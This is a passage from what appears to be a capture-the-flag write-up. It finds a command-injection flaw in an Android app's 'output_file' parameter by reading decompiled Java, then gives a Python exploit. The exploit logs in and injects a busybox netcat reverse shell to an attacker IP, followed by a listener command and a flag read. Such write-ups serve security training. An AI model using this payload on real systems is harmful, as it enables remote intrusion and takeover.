 ```java
        boolean booleanValue = ((Boolean) obj).booleanValue();
        TakePictureActivity takePictureActivity = this.f3687b;
        if (booleanValue) {
            Toast.makeText(takePictureActivity, "Request Successful and Image Downloaded", 0).show();
        } else {
            Toast.makeText(takePictureActivity, "Request Failed", 0).show();
        }
    }
}
```
This function needs a valid `Bearer`, which could be obtained by login into the application.

We can also spot the vulnerability here. It's in the parameter `output_file`. We could see the parameter is populate using the content of the request. 

The function `FileOutputStream fileOutputStream = new FileOutputStream(new File(Environment.getExternalStoragePublicDirectory(Environment.DIRECTORY_PICTURES), this.f3686a));` also take the variable without any filtering. 

The following script automate the process of login into the application and send a malicious request to get remote code execution.

```python
# android_exploit.py
import requests

# Authenticate to the android application
headers = {"Content-type":"application/json"}
data = {"username":"developer", "password":"bigbang"}
response = requests.post("http://127.0.0.1:9090/login", headers=headers, json=data)
access_token = response.json()['access_token']

# Using the access token the send malicious payload
headers = {"Content-type":"application/json", "Authorization":f"Bearer {access_token}"}
exploit_command = '/tmp/random \n busybox nc 10.10.14.6 7001 -e sh'
data = {"command":"send_image", "output_file":f"{exploit_command}"}

response = requests.post("http://127.0.0.1:9090/command", headers=headers, json=data)
```
Get the shell
```bash
nc -lvnp 7001

cat /root/root.txt
```

## Resources:

| Hyperlink                                                                                                                            | Info                               |
| ------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------- |
| https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8 | CVE-2023-26326                     |
| https://blog.lexfo.fr/iconv-cve-2024-2961-p1.html                                                                                    | ICONV CVE-2024-2961                |
| https://nvd.nist.gov/vuln/detail/cve-2024-2961                                                                                       | NIST CVE-2024-2961                 |
| https://github.com/ambionics/wrapwrap                                                                                                | wrapwrap                           |
| https://github.com/jpillora/chisel                                                                                                   | https://github.com/jpillora/chisel |
| https://github.com/iamaldi/grafana2hashcat                                                                                           | grafana2hashcat                    |
| https://github.com/skylot/jadx                                                                                                       | JADX                               |


